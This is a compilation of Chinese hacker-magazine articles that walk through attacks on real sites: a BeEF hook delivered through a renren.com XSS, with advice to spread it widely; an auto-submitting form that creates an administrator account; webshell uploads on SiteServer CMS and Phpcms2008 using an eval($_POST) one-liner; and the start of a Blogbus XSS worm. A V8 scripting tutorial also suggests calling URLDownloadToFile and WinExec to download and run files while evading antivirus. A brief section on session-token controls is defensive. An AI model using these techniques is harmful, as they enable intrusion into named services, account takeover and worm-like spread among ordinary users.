将参数传入后，会调用 send_module_code，然后将数据发送出去，我们看一下 send_module_code 函数：

```php
function send_module_code($zombie, $code) {
  // check result location is set
  if(isset($_GET['result_id']) && isset($_SESSION[$_GET['result_id']])) {
    zombie_send_code_and_set_return($zombie, $_SESSION[$_GET['result_id']], $code);
  } else {
    zombie_send_code($zombie, $code);
  }
}
```

该函数判断 JavaScript 是否要返回数据，然后根据是否要返回数据，分别调用 zombie_send_code_and_set_return 和 zombie_send_code 函数。函数代码如下：

```php
function zombie_send_code_and_set_return($zombie, $return_id, $code) {
  $zombie_dir = ZOMBIE_TMP_DIR . $_SESSION['zombie'];
  $cmd_file = $zombie_dir . "/" . CMD_FILENAME;
  $res_loc_file = $zombie_dir . "/" . RES_LOC_FILENAME;
  file_put_contents($cmd_file, $code);
  file_put_contents($res_loc_file, $return_id); // set return location
}
```

```php
// _[ZOMBIE_SEND_CODE
function zombie_send_code($zombie, $code) {
    $zombie_dir = ZOMBIE_TMP_DIR . $_SESSION[$zombie];
    $cmd_file = $zombie_dir . '/' . CMD_FILENAME;
    file_put_contents($cmd_file, $code);
}
```

该函数会把代码写入到我们选定僵尸 IP 的临时文件中，然后客户端会自动访问该文件，调取 JavaScript，触发事件并返回数据。我们首先做个简单的测试，让用户自动弹出 cookie 信息。JavaScript 代码如下：

```javascript
function do_main(){
    alert(document.cookie);
}
do_main();
```

这里要记得函数使用 do_main。下面是测试截图。访问跨站 example，如图 12 所示。


图 12

选择僵尸 IP，进行配置发送，如图 13 所示。


图 13

客户端显示如图 14 所示。


图 14

实际运用：使用 BeEF 获取人人网用户隐私。

为了配合 BeEF 使用做解释，挖掘了一个人人网 XSS 漏洞。首先做一下漏洞解释：`http://www.connect.renren.com/share.do?url=...` 处存在 XSS 漏洞，最终这个 URL 参数会在浏览我们的分享时运行。首先看一下漏洞测试实现。

使用个人账户登录人人账户访问：`http://www.connect.renren.com/share.do?url=<iframe src='http://www.baidu.com'></iframe>`，如图 15 所示。


图 15

我们修改主题名称、输入评论，将浏览权限设置为所有人，单击“发送”按钮，如图 16 所示。


图 16

单击“查看分享”，并打开我们的评论，如图 17 和图 18 所示。


图 17


图 18

很明显，代码得到执行。但是，遇到一个问题，就是查看评论的时候会显示我们的代码。那好，我们进行一下美化，如图 19 所示。输入如下网址：

```text
http://www.connect.renren.com/sharer.do?url=...<iframe src=http://www.baidu.com></iframe>
```


图 19

如图 20 所示是我们将看到的 exploit 页面，单击打开就会执行我们的跨站代码。可以最后再做一下美化，给出个半成品 exploit。

```text
http://www.connect.renren.com/sharer.do?url=...<iframe src=http://www.baidu.com width=0 height=0></iframe><b></b>
```


图 20

单击打开后如图 21 所示。最终效果如图 22 所示，还可以自由发挥。


图 21


图 22

exploit 有了，就大量发送，任何人都可以看到评论。会很快发现有用户上线，上线以后就可以和客户端浏览器获取短暂会话的能力。这个时候最主要的是客户端浏览的时间，还有我们个人的 JavaScript 水平了。当然客户端浏览时间我们可以用一些技巧延长。基于浏览器的渗透核心还有 JavaScript 攻击能力，BeEF 的核心在于给予了我们和浏览器即时通信的能力和渗透测试的框架。如图 23 所示。


图 23

具体更深一层次的利用，还是要看思维了。针对 XSS 攻击技术，主要还是看技术底子。到此，这个系统基本上介绍完了，但是我发现国内使用的人很少，可能首先是英文界面的缘故，并且现在框架还不是很清楚，缺少基本的开发使用文档吧。欢迎大家加入一起学习。（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：无  
关键词：session、cookies、安全

## 浅谈 session 与 cookies 的安全性分析


文/图 thanks

### 引述

打个比方，在路边的小奶茶店买完奶茶，老板会给顾客一张会员卡，买一杯盖一个章。下次顾客再次光临时，5 个章可以免费换一杯。而相比之下，星巴克咖啡店就高级多了，只要办了会员卡，之前的购买数据不是盖在卡片上，而是全部存在星巴克总部的服务器里。从某种意义上讲，前者就是 cookies 机制，后者就是 session。

### cookie 机制

服务器使用 cookies 机制向客户端发送数据，客户端保存 cookies 后再由浏览器（注意是浏览器）按照一定的原则发送给服务器。一个 cookies 交互过程如下。

- （1）服务器使用 set-cookie 响应消息头来发布 cookie，如图 1 所示。

```http
HTTP/1.1 200 OK
Date: Tue, 18 Jan 2011 10:36:36 GMT
Server: Apache
Set-Cookie: ...
Expires: -1
Cache-Control: no-store, private, post-check=0, pre-check=0, max-age=0
Pragma: no-cache
```

图 1

- （2）客户端浏览器将消息头添加到请求中返回给服务器。如图 2 所示。

```text
Cookie: rtime=10; ltime=...; ...
formhash=...&referer=http%3A%2F%2Fwww.freebuf.com%2Findex.php...
```

图 2

- （3）之后的每一个请求都会继续向服务器提交 cookies。cookies 的内容主要包括：名字、值、过期时间、路径和域。对于我们研究安全来说，这里的关键点在于 cookies 是可以本地修改的。

### session 机制

session 机制是一种服务器端的机制，服务器使用一种类似于散列表的结构（也可能就是使用散列表）来保存信息。传递这个 session id 的方式可以采用 cookies，这样在交互过程中浏览器可以自动地按照规则把这个标识发送给服务器。一般这个 cookies 的名字都是类似于 session id。由于 cookies 可以被人为禁止，必须有其他机制以便在 cookie 被禁止时仍然能够把 session id 传递回服务器。可以通过 URL 重写，或者通过表单的隐藏字段来完成。

在谈论 session 机制的时候，常常听到这样一种误解：“只要关闭浏览器，session 就消失了。”其实不然，除非程序通知服务器删除一个 session，否则服务器会一直保留。如果服务器设置了失效时间，当距离客户端上一次使用 session 的时间超过这个失效时间时，服务器才会删除该 session。

恰恰是由于关闭浏览器不会导致 session 被删除，迫使服务器为 session 设置了一个失效时间。当距离客户端上一次使用 session 的时间超过这个失效时间时，服务器就可以认为客户端已经停止了活动，才会把 session 删除以节省存储空间。

### session 容易混淆的概念

- **session 在何时被创建**：一个常见的误解是认为 session 在有客户端访问时就被创建，事实上是服务器端程序控制创建。
- **session 何时被删除**：程序控制结束（如 `HttpSession.invalidate()`）、session 超时、服务器进程被停止（非持久 session）。
- **开两个浏览器窗口访问应用程序会使用同一个 session 还是不同的 session**：与浏览器类型、窗口打开方式、cookie 存储方式等相关。

### cookies 与 session 的利用分析

概念梳理清楚了，现在我们来看一个 session 欺骗的例子。A 页面发出文章并显示在后台供管理员审核（A 页面存在 XSS 漏洞），这样我们就可以构造语句跨出 frame：`<iframe src="http://.../xss.htm">`，再通过 xss.htm 来做表单提交。xss.htm 代码如下。

```html
<form name="admin" action="http://127.0.0.1(目标站)/admin/admin_add_save.asp" method="POST" onSubmit="return validate(this)">
<input type="text" name="username" value="Thanks">
<input type="text" name="password" value="Thanks">
<input type="submit" value="确定提交" name="BT" class="buttonface">
</form>
<body onload="javascript:document.forms[0].submit()"></body>
```

chklogin.asp 后台登录页面代码如下。

```asp
<!--#include file="conn.asp"-->
<!--#include file="md5.asp"-->
<!--#include file="code.asp"-->
<%
' ...
username=trim(request("username"))
password=trim(request("password"))
username=ForSqlForm(username)
password=ForSqlForm(password)
password=md5(password)
set rs=server.createobject("adodb.recordset")
sql="select * from admin where username='"&username&"' and password='"&password&"'"
...
session("adminname")=rs("username")
session("adminid")=rs("id")
session("admin_quanxian")="admin"
response.redirect("manage.asp")
%>
```

添加管理员相关的代码。

```asp
session.asp:
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<%
If session("admin_quanxian")<>"admin" or session("adminname")="" or session("adminid")="" then
  response.redirect "index.asp"
end if
%>
```

```asp
admin_add_save.asp:
<!--#include file="conn.asp"-->
<!--#include file="session.asp"--> // 引入 session 验证
<!--#include file="md5.asp"-->
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<link rel="stylesheet" href="STYLE.CSS" type="text/css">
<body leftmargin="0" topmargin="0" marginwidth="0" marginheight="0">
<!--#include file="head.asp"-->
<%
Set rs=Server.CreateObject("ADODB.Recordset")
sql="SELECT * FROM admin where username='"&Request("username")&"'"
rs.Open sql,conn,3,3
if rs.eof then
  rs.Addnew
  rs("username")=trim(Request("username"))
  rs("password")=md5(trim(Request("password")))
  rs.Update
end if
%>
```

当管理员打开带有 xss 代码的文章时，管理员就被添加了，如图 3 所示。


尽管 admin_add_save.asp 里含有 session 的验证，但是如前文所述，session 验证的原理其实和 cookies 非常相似，所以 cookies 那一套历史悠久的欺骗招数依然奏效。注意：尤其让人欣喜的是，虽然 IE 环境 iframe 对本地 cookies 是无法发送的，但是 session cookies 依然可以发送。

例子实在是太多了，所以在这就不专门举例了。总之，如果我们通过劫持 cookies 得到 session 令牌，那么接下来我们就可以和 cookies 一样做欺骗，只不过速度要快些，要赶在失效之前做好。

## cookies 与 session 的风险控制

cookies 的风险控制主要有域限制、路径限制，以及 secure 属性。再说 session，虽然大部分网站 session id 由 cookies 传递，但关键性网站（如银行应用）一般由隐藏表单来控制，而且会对每页面建立令牌和更为严格的控制，这无疑大大提升了安全性。如图 4 所示。

```html
<input type="hidden" id=CustomerId name=CustomerId value="HEX...">
<input type="hidden" id=CustomerRefNo name=CustomerRefNo value="HEX...">
<input type="hidden" id=ScreenToken name=ScreenToken value="HEX...">
```

图 4

刚才讲到了对 session 会话的劫持。程序员在对 session 写应用时会考虑使用共享机制或者是多令牌机制（支持并行会话），这样写代码是为了方便用户使用，允许同一个用户账户同时分配多个有效 session 令牌。但同时也会充满令牌被劫持的风险：由于存在多个有效令牌，只要 session 没有过期，一旦令牌被劫持，即便用户退出了也依然会受到会话劫持攻击。

- 1. session 令牌由 https 传递，最好由隐藏表单 post 实现。
- 2. 防止并行登录。每一次用户登录销毁旧会话，发布新令牌。
- 3. 非活动状态令牌的销毁（退出）。
- 4. 关键点实行每页面令牌（会影响应用程序功能，如前进后退失效）。

可以参考如下的 Java 代码。

```java
public String login() {
    getCurrentSession().invalidate();
    User loginUser = userService.login();
    if (loginUser != null) {
        auth(createNewSession(), loginUser);
    } else {
        // ...
    }
}
```

前置知识：无  
关键词：SiteServer、Shell

## SiteServer V3.4.2 的一些漏洞

文/图 古典娃娃

### 介绍

SiteServer 是依靠 ASP.NET 的 CMS，听说很贵，最新的版本是 V3.4.2。2010 年 6 月的时候 i0ols 有人发过一个漏洞，不过之后好像就没什么人关注它了。最近在给客户做渗透测试的时候遇到这个系统。

大家可以搜索关键词：“allintext: Powered by SiteServer CMS” 就可以获得一些使用 SiteServer CMS 的站点了，或者直接到 SiteServer CMS 的官方网站去找他们的客户站点。

#### 用户中心拿 Shell

之前 1001 有人发的漏洞是利用 1.asp;.txt 这样的文件名来上传 Webshell 的，最新的版本还是有这样的漏洞，本文介绍的漏洞也是 IIS 6 解析的问题，就是注册一个类似 asp.asp 这样的用户名，如图 1 所示，然后在“文档附件管理”里面直接上传一个 txt 的 Webshell 即可。


注册地址：http://demo2.siteserver.cn/usercenter/register.aspx。登录地址：http://demo2.siteserver.cn/usercenter/login.aspx。不过在第一次登录的时候会提示一个错误：未能找到路径“d:\enkihost\zhangwenming36\web\SiteFiles\UserFiles\asp.asp”的一部分，如图 2 所示。这个是程序本身的问题，解决这个问题很简单，只要在头像图片里面成功上传一个头像，如图 3 所示，然后再回到“文档附件管理”里面就可以正常上传 Webshell 了，如图 4 所示，单击“浏览”按钮即可获取 Webshell 的地址。


#### 管理后台拿 Shell

官方的 demo 系统管理后台地址是：http://demo2.siteserver.cn/siteserver/login.aspx，用户名和密码都是 siteserver，进了后台之后拿 Shell 的方法就很多了。

- **后台拿 Webshell 方法 1：** 在“站点管理”→“显示管理”→“模板管理”中，添加一个新的模板，如图 5 所示，文件扩展名选择 aspx 或 asp，模板文件内容就把你的 Webshell 复制进去，最后单击添加就可以在网站的根目录生成一个 Webshell 了，如图 6 所示，很简单吧。真想不明白模板为什么要生成可执行的脚本文件，而且官方服务器的权限很容易就拿下了，如图 7 所示。下面就不一一截图了。
- **后台拿 Webshell 方法 2：** 在“站点管理”→“显示管理”→“包含文件管理”中，可随意添加 aspx 或 asp 的文件，在 include 目录里面会生成你添加的 Webshell。
- **后台拿 Webshell 方法 3：** 在“站点管理”→“显示管理”→“页面命名规则”中，在“下级栏目页面命名规则”这里可以自定义生成页面的后缀名，可以把 html 改为 asp、aspx 等，拿 Shell 就触手可及了。
- **后台拿 Webshell 方法 4：** 该 CMS 默认就把几乎所有可执行的脚本后缀名都禁止了，唯一的缺陷是在后台可以更改这些上传设置，也就是说拿到管理员权限之后在后台就可以随意上传木马了。


### 其他问题

之前的版本一直有很多跨站，最新的版本似乎没有了，不过在后台的“Powered by 显示设置”里面还是有跨站漏洞，如图 8 所示，可以用来挂马，如图 9 所示，这个 SiteServer CMS 的安全问题实在太多了，还是商业的，真悲剧。


- 前置知识：VC
- 关键词：Google、脚本、API

## 使用 Google V8 打造自己的脚本引擎——在脚本中动态执行 API


文/图 腾袭

随着 Google 浏览器 Chrome 的普及，越来越多的人知道其快速的原因主要在于使用了执行效率更快的 V8 JavaScript 引擎，以及 WebKit 内核，这里我们主要讲的是使用 Google V8 引擎来打造自己的脚本引擎，并且用脚本实现动态执行 API。

由于 Google 将 V8 的代码开源了，我们只需要在 Google Code 上搜索一下就可以得到 V8 的代码：  
http://code.google.com/p/v8/。

关于 V8 的编译，V8 是使用 C++ 代码编写而成，我们只需要使用 SVN 工具，将代码下载好，使用 Visual Studio 即可完成编译。笔者用 VS2010 编译了一个动态库和一个静态库，可以在文章的附件中查看，这里就不详细解释了。

接下来，开始我们的 V8 之路吧！在研究代码之前，我们先来看看 V8 引擎的执行机制，如图 1 所示。


图 1

这个是官方给出的一张图片，也很好地解释了 V8 的运行机制。我们可以在这张图片中发现一个有趣的事情，如图 2 所示。


图 2

这里的代码 Google 由于手误打错了……不知道是不是我没有理解，本该是 argv[1] 的，它这里多了个 []。

先是创建了全局的上下文管理以及对象管理，在 V8 中都是使用 Handle 来管理脚本中的数据。我们要把数据传入脚本中也需要先转化为 Handle，像字符串数据可以用 String::New 的方法来转换成 Handle，最后销毁时会一起把里面的数据清空，这样做极大地简化了开发步骤。

接着就是对代码的编译。V8 引擎执行效率高的原因主要在于此，它首先将代码全部编译一遍才执行代码，这样做不仅有效地减少了代码错误导致的各种问题，还极大地提高了效率，而一些其他的脚本引擎是边翻译代码边执行，这样做就可能会使一些代码的效率严重低下。

最后就是上下文的释放了，将分配的空间释放出来，防止内存泄露。

了解了 V8 基本的运行机制后，我们来看看代码吧。首先，我们在 SVN 下 V8 的代码中可以看到 include 目录，这个就是我们需要在代码中包含的头文件。在 include 目录下的文件不受其他目录下文件的影响，我们可以复制出来单独使用：  
`#include "v8_include\v8.h"`。

笔者将 V8 的代码用 VS2010 编译成了动态库 v8Script.dll，用的时候把 lib 文件打包到我们的程序中就可以使用了：  
`#pragma comment(lib,"v8Script.lib")`。

如果是使用静态库，则需要把 v8_base.lib 和 v8.lib 一起加到程序中，这样就可以不用 dll 了，减少程序文件。但是笔者更推荐使用 dll 的方式，这样比较方便管理，也可以减少程序的体积。

我们接下来看一些示例代码：

```cpp
using namespace v8;
int main()
{
    // Create a stack-allocated handle scope.
    HandleScope handle_scope;
    // Create a new context.
    Persistent<Context> context = Context::New();
    Context::Scope context_scope(context);
    Handle<String> source = String::New("Hello" + ", World!");
    Handle<Script> script = Script::Compile(source);
    Handle<Value> result = script->Run();
    context.Dispose();
    String::AsciiValue ascii(result);
    std::cout << *ascii << std::endl;
    return 0;
}
```

执行的结果输出：Hello, World!

我们来看看这份代码中 V8 脚本引擎执行的代码：`'Hello' + ',' + 'World!'`。

正如标准的 JavaScript 语言一样，这是连接字符串的一种方法，结果就是返回了字符串 “Hello, World!”。

我们再来看看自定义函数是如何在 V8 中实现的。首先要定义一个全局对象模板：

```cpp
Handle<ObjectTemplate> global = ObjectTemplate::New();
```

然后就是向全局对象模板中添加自己的函数（addMyFunc 的定义放在后面）：

```cpp
addMyFunc(global);
```

然后我们在前文的示例代码中创建上下文的地方传入全局对象模板：

```cpp
Persistent<Context> context = Context::New(NULL, global);
```

我们添加的函数要符合以下的模板：

```cpp
Handle<Value> MyPrint(const Arguments& args)
{
    HandleScope handle_scope;
    for (int i = 0; i < args.Length(); i++) {
        Handle<String> s = args[i]->ToString();
        std::cout << *(String::AsciiValue(s)) << std::endl;
    }
    return Undefined();
}

void addMyFunc(Handle<ObjectTemplate> global)
{
    global->Set(String::New("print"),
        FunctionTemplate::New(MyPrint));
}
```

这样，我们在 JavaScript 中就可以使用这样的代码了：

`print("Hello World!");`

我们将前文代码中：`Handle<String> source = String::New("'Hello' + ', World!'");`  
改为：`Handle<String> source = String::New("print('Hello World!')");`

编译执行，我们就可以看到输出了。

> Hello, World!  
> undefined

从中我们看到，print 函数已经被执行，输出了 “Hello, World!”，最后输出的 undefined 是由于我们在代码中输出脚本执行的结果，由于 print 执行返回的是 undefined，所以输出了它。

现在我们也大概了解了函数的添加，接下来说说如何动态调用 API 吧。研究过 API 调用方式的读者肯定知道，我们首先需要得到那个函数的地址，然后将数据压入堆栈中，跳到函数的地址去执行函数，我们这里也是如此。

首先调用 LoadLibrary 来加载 dll 文件，用 GetProcAddress 来取得函数地址，然后分别处理数据，按调用方式的要求压入堆栈之中，笔者这里只支持 stdcall 的方式。

```cpp
typedef int (WINAPI *FUNC_DEF)();
typedef struct _TA_FUNC_DATA {
    int nType;
    PVOID data;
} TA_FUNC_DATA;

typedef struct _TA_FUNC_INFO {
    int nType;
    LPVOID lpFuncAddress;
    int nArgs;
    TA_FUNC_DATA *pArgsData;
} TA_FUNC_INFO;

__inline void SetEax(DWORD data) {
    __asm {
        mov eax, data
    }
}

Handle<Value> CallFunc(const Arguments& args) {
    HandleScope handle_scope;
    if (args.Length() < 2) return Undefined();
    char *szDllName = _strdup(*(String::AsciiValue(args[0]->ToString())));
    char *szFuncName = _strdup(*(String::AsciiValue(args[1]->ToString())));
    HMODULE hModule = LoadLibraryA(szDllName);
    if (!hModule) {
        free(szDllName);
        free(szFuncName);
        return Undefined();
    }
    LPVOID lpFuncAddress = ::GetProcAddress(hModule, szFuncName);
    if (!lpFuncAddress) {
        free(szDllName);
        free(szFuncName);
        return Undefined();
    }
    BOOL bWideChar = (szFuncName[strlenA(szFuncName)-1] == 'W');
    int i_ret = 0;
    Handle<Array> ret_array;
    if (args.Length() > 2) {
        ...
    }
}
```

```cpp
TA_FUNC_INFO fi;
fi.lpFuncAddress = lpFuncAddress;
fi.nArgs = args.Length() - 2;
fi.nType = 0;
fi.pArgsData = new TA_FUNC_DATA[fi.nArgs];
memset(fi.pArgsData, 0, fi.nArgs * sizeof(TA_FUNC_DATA));

BOOL bRun = TRUE;
int i;
ret_array = Array::New(args.Length() - 1);
for (i = 2; i < args.Length(); i++) {
    if (args[i]->IsNumber()) {
        fi.pArgsData[i-2].nType = 0;
        fi.pArgsData[i-2].data = (PVOID)args[i]->Uint32Value();
    } else if (args[i]->IsString()) {
        fi.pArgsData[i-2].nType = 1;
        if (bWideChar)
            fi.pArgsData[i-2].data = (PVOID)_wcsdup((wchar_t*)*(String::Value(args[i]->ToString())));
        else
            fi.pArgsData[i-2].data = (PVOID)_strdup(*(String::AsciiValue(args[i]->ToString())));
    } else if (args[i]->IsArray()) {
        fi.pArgsData[i-2].nType = 2;
        Array *arr = Array::Cast(*args[i]);
        int nLength = arr->Length();
        fi.pArgsData[i-2].data = malloc(nLength * sizeof(int));
        for (int ii=0; ii<nLength; ii++)
            ((DWORD*)fi.pArgsData[i-2].data)[ii] = arr->Get(ii)->Uint32Value();
    } else if (args[i]->IsFunction()) {
        fi.pArgsData[i-2].nType = -1;
        bRun = FALSE;
        printf("Don't Support Function.\n");
        break;
    } else {
        fi.pArgsData[i-2].nType = -1;
        fi.pArgsData[i-2].data = (PVOID)args[i]->Uint32Value();
    }
}

if (bRun) {
    for (i = fi.nArgs - 1; i >= 0; i--) {
        SetEax((DWORD)fi.pArgsData[i].data);
        __asm { push eax }
    }
    __asm {
        mov eax, lpFuncAddress
        call eax
        mov i_ret, eax
    }
}

ret_array->Set(Integer::New(0), Integer::New(i_ret));
for (i = 0; i < fi.nArgs; i++) {
    switch (fi.pArgsData[i].nType) {
    case 0:
        ret_array->Set(Integer::New(i+1), Uint32::New((DWORD)fi.pArgsData[i-2].data));
        break;
    ...
    }
}
```

```cpp
((DWORD)fi.pArgsData[i-2].data)
...
case 1:
  ret_array->Set(Integer::New(i+1),
    bWideChar ? v8::String::New((uint16_t*)fi.pArgsData[i].data,
      strlenW((wchar_t*)fi.pArgsData[i].data))
              : v8::String::New((char*)fi.pArgsData[i].data,
      strlenA((char*)fi.pArgsData[i].data)));
  break;
case 2:
  int nLength = Array::Cast(args[i+2])->Length();
  Handle<Array> arr = Array::New(nLength);
  for(int i1=0;i1<nLength;i1++){
    arr->Set(Integer::New(i1), v8::Uint32::New(((DWORD*)fi.pArgsData[i].data)[i1]));
  }
  ret_array->Set(Integer::New(i+1), arr);
  break;
default:
  ret_array->Set(Integer::New(i+1), Uint32::New((DWORD)fi.pArgsData[i].data));
}
...
if(args.Length()>2) return ret_array;
else return Integer::New(i_ret);
```

从代码中我们可以看到，有参数的函数返回的是一个数组。

这是由于有些 API 带有传址的参数，我们需要把其中被修改的数据也返回脚本，像 GetModuleFileName 之类的函数。同时，我们把函数执行返回的结果作为第一个值返回。现在，我们把这个函数加入到全局对象模板中即可在脚本中调用了。

```cpp
global->Set(String::New("callfunc"), FunctionTemplate::New(CallFunc));
```

接着把 V8 编译的代码改成如下代码，即可实现简单的 API 调用了。

```javascript
Handle<String> source = String::New("callfunc('user32.dll','MessageBoxW',0,'Hello World!','Test',0);");
```

这个代码调用了 MessageBox 这个函数，执行效果如图 3 所示。


图 3

最后还返回了函数执行的结果。我们同样可以通过执行 callfunc 来调用 URLDownloadToFile、WinExec 这类函数，来实现动态的下载文件、执行文件。通常来说这样执行拥有更高的灵活度和自由度，脚本的内容可以从网络中下载，这样就拥有了对于本地代码来说更好的隐蔽性，甚至我们可以通过这样的方法来规避一些杀毒软件的程序代码检查。

看到这，读者们是不是对 V8 有更大的兴趣了。一开始研究 V8 会发现其中的 Handle 概念有点难理解，但是一旦理解后就会发现也是如此的简单方便。

关于 V8 的更多功能可以在 SVN 下的例子中去查看，更多的用处就靠读者自行研究了。（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：无
- 关键词：php、cms、提权

## Phpcms2008 sp4 管理员提权 0day

文/图 Simeon

Phpcms2008 系列最早发布于 2008 年 12 月，历经近两年的系统完善，现在已经拥有内容模型、会员、问吧、黄页、分类信息、视频、专题、财务、订单、广告、邮件订阅、短消息、自定义表单、全站搜索等 20 多个功能模块，内置新闻、图片、下载、信息、产品 5 大内容模型。Phpcms2008 采用模块化开发，支持内容模型和会员模型，并且可以自定义字段，是深受广大用户喜爱的开源网站内容管理系统软件，目前该软件的最新版本为 Phpcms2008 sp4。通过对该系统的研究，发现在获取了管理员权限的情况下，通过木马扫描可以快速地获取 Webshell 权限。

单击“查看”按钮即可查看相应文件的源代码，如图 5 所示。通过该方法可以很方便地获取数据库配置文件等信息。

### 1. 获取 Phpcms 版本号

Phpcms2008 sp4 的默认后台地址是 admin.php，输入管理员名称和用户密码即可进入。通过后台首页可以看到 Phpcms 的版本号即“Phpcms2008sp4 20110406”，如图 1 所示。


图 1 获取 Phpcms 的版本号

### 2. 扫描木马

单击“系统设置”→“系统工具”→“木马扫描”→“扫描木马”命令，如图 2 所示，进入木马扫描设置页面。在文件类型中选择 php，特征函数使用默认的即可。特征代码使用“cbpw”，然后单击“开始扫描”按钮。


图 2 扫描木马设置

注意：在文件类型中默认增加了 JavaScript 代码扫描，由于是要提权，因此去掉 JavaScript 文件类型，可加快文件扫描速度。如图 3 所示，程序开始扫描并提示进度等信息。

### 3. 查看扫描结果

Phpcms2008 sp4 版本中扫描木马模块可以对系统所有存在特征代码的文件进行内容查看，如图 4 所示。当扫描结束后会将扫描的结果按照列表的方式进行显示，并提示哪些文件包含特征代码。在本例中，可以看到有很多文件，通过该方法可以获取数据库配置文件的信息。


图 3 开始扫描程序文件


图 4 查看扫描结果文件


图 5 查看程序源代码

### 4. 获取数据库密码

在本例中选中“include/config.inc.php”，如图 6 所示，可以直接查看文件代码。如果系统中存在 Webshell，那么该方法可以快速获取 Webshell 的密码。


图 6 获取数据库连接密码

### 5. 修改文件获得 Webshell

先从需要替换的文件中选定一个独立段的注释性文字，例如“//MemCache 服务器配置”，然后回到木马扫描结果文件列表中，并选中需要替换的文件，单击“批量替换”按钮，会出现一个文件替换页面，如图 7 所示。在“替换成”文本框中输入“eval($_POST['antian365.com']);”，在“要替换的内容”文本框中输入“//MemCache 服务器配置”，单击“提交”按钮，即可将一句话木马插入到配置文件中。


### 6. 成功获取 Webshell

使用中国菜刀一句话木马管理端，在其中先添加一个 shell 地址并输入连接密码，然后直接连接 Webshell 地址，如图 8 所示，成功获取 Webshell。


### 7. 上传大马

利用中国菜刀将大马 PhpSPY 上传到服务器，在浏览器中查看，如图 9 所示，成功运行。Phpcms2008 sp4 中还提供了系统的路径等信息，该模块也在系统设置中，点击系统环境检测，如图 10 所示，即可获知操作系统类型、网站的真实物理地址等信息，这些信息对于提权来说至关重要。


- 前置知识：无
- 关键词：XSS、Worm、跨站

## Blogbus XSS Worm

文/图 乱雲


### 前言

众所周知 Blogbus 满站都是 XSS。早在 2009 年，当我还在使用 Blogbus 时，发现了两处 XSS，一处位于友情链接处，另一处则在自定义 Header 处。之后在网上看到了呆哥公布了很多 Blogbus 的 XSS。Blogbus 团队一直认为这不属于漏洞，于是便有了此文。

### 蠕虫 & XSS 蠕虫

1988 年，罗伯特·莫里斯利用 Unix 中的一个缓存溢出漏洞编写了世界上第一个蠕虫病毒，之后在 Internet 上蔓延，自我复制。所以，蠕虫病毒的一个重要特征就是自我复制。

XSS 攻击的本质是网站程序代码过滤不严，攻击者利用存在缺陷的网站作为平台向用户浏览器注入一段可执行的脚本代码。像微博、博客、社交这类用户交互式互动的网站，倘若出现跨站漏洞，假设用户 A 的个人页面出现 XSS，并且被注入了持久性的 XSS 代码，用户 B 来访问用户 A 时，用户 B 的浏览器就会执行注入的代码。

因为 HTML 结合 JavaScript 的灵活性，可以用 XSS 做很多事，比如挂马、钓鱼、蠕虫，而不仅仅限于弹出一个提示对话框。不像操作系统或者应用程序，只要及时更新了安全补丁，就可以避免特定的漏洞攻击；像博客之类的程序，由博客提供商编写的特定程序，只要程序出现漏洞，所有用户都可能会受到安全威胁。

XSS Worm 就是利用持久性跨站，继承了传统的蠕虫病毒自我传播的特征，编写特定的代码来达到自我传播的目的。当用户 A 被植入了可传播的恶意代码后，用户 B 来浏览，将会被感染，因为用户 A 和用户 B 所使用的程序结构是相同的。接着用户 C 来浏览用户 B 或者用户 A，用户 C 也同样登录了，所以用户 C 在没有防范的情况下也会被感染。如此循环，可以自我传播一直蔓延下去。

### 利用思路

- 1. **发现跨站漏洞**  
  要实现 XSS Worm，首先需要一个持久性跨站漏洞，即提交的数据会被保存在服务器的数据库中，当用户来浏览你的页面时，代码会被执行。
- 2. **编写利用代码**  
  编写特定的代码，该代码可以自动利用 GET 或者 POST 方式向出现漏洞的地方提交数据，达到感染的目的。
- 3. **等待用户来访问**  
  只要有用户来访问，首先判断是否已登录，如果登录了，就实施感染；如果没有登录，随便你想做什么，跳转到其他地方、弹出提示、钓鱼、挂马、诱惑别人登录……

### Blogbus XSS Worm 编写

一般来说，编写 XSS Worm 都用了 Ajax 技术，利用 XMLHttpRequest 强大的功能来实现。但是我编写时，遇到了难以描述的困难，让我情何以堪，所以没有遵循传统的 XSS Worm 所用的 Ajax。

首先我们看触发漏洞的地方，用你的 Blogbus 账号登录，在管理中心→博客→博客设置里的“自定义 Header”中提交跨站代码 `<script>alert("xss test")</script>`，保存并浏览你的博客，弹出内容为“xss test”的提示，如图 1 和图 2 所示。


图 1 触发 XSS 的地方


图 2 执行效果

为了感染其他用户，需要先判断浏览者是否登录了 Blogbus，这个我们可以从 Cookie 值中来判断。为了找到登录后的 Cookie 值，咱们先抓包。

用 WSockExpert 打开一个浏览器进程，然后访问一个 Blogbus 的博客地址，我访问我的 `http://luanx.blogbus.com`。最后抓出的未登录 Blogbus 的 Cookie 如下：

```
Cookie: __utma=42272954.1234898992.1306645253.1306645253.1306645253.1; __utmb=42272954.1.10.1306645253; __utmz=42272954.1306645253.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); valid=blogbus.com;
```

然后登录，再访问，抓出的 Cookie 值如下：

```
Cookie: __utmc=42272954; __utma=42272954.1754355615.1306409514.1306409514.1306409514.1; __utmb=42272954.2.10.1306409514; __utmz=42272954.1306409514.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); ...; bus_uid=4173493; bus_xuid=4173493;
```

对比两个状态（登录和未登录）的 Cookie 值，登录后的 Cookie 中多了 bus_uid 一项，因此，我们以它作为判断用户是否登录的依据。

简单说，登录了 Blogbus 后，Cookie 中会出现 bus_uid。利用 JavaScript 的 document 对象的 cookie 属性就可以读出当前的 Cookie 值了，然后再利用 indexOf() 方法来查找 Cookie 值中是否存在 "bus_uid"，代码如下：

```javascript
var blogbus_cookie;
blogbus_cookie = document.cookie;
//indexOf() 返回 -1 说明没有找到
if (blogbus_cookie.indexOf('bus_uid') != -1) {
  alert('login');
} else alert('no login');
```

登录后就可以向跨站点提交恶意数据了。继续来到博客设置页面（`http://blog.home.blogbus.com/settings/basic/`），然后查看网页的源代码，用关键字 form 找到提交处理该页面数据的地址，如图 3 所示。


图 3

可以看出数据是以 POST 方式提交的，处理地址是 /4352807/settings/basic，4352807 很显然是一个跟用户有关的 ID。每个博客用户的地址可能不一样，但后来经过测试，发现直接提交给 /settings/basic 也行得通，这样就简单多了。

